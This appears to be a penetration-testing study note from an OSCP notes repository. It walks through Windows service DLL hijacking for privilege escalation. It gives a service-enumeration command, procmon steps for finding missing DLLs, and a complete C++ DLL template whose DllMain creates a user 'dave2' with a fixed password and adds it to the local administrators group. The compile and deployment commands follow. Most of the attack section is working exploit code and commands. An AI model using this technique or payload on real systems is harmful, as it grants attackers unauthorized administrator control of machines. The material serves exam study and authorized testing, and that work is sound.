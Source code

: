 # Service DLL Hijacking

## Safe DLL Search Order
this is how windows loads its DLLs whaen an executable is run.
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

## Identifying the service

1. use the following command to get services running: `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`

2. look for binaries that are user installed, not in a usual location like `C:\windows\...`

3. see if you have full access to the binary as a user, if you do try follow `Windows_service_binary_hijacking.md`, if not follow on

4. use procmon as a high level user to see loaded DLLs by the program. set a filter like bellow to only show that process.
   ![image](https://github.com/M-1-7-7/OSCP_2023_notes/assets/108218328/dcf38ab3-651b-459a-a728-c044476de1ce)

5. restart the service as look at the loded DLLs, are ther any missing or loaded out of the `Safe DLL Search Order` order where we could inject a custom DLL.

6. Use this C++ template to create a dll that will add a user to the admin group: (ensure to put the code in the correct secction of program)
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

7. use `x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll`on kali to generate the DLL

8. get it onto the target system and into the required location

9. restart the service and chech the admin group: `Restart-Service BetaService` `net user`

   
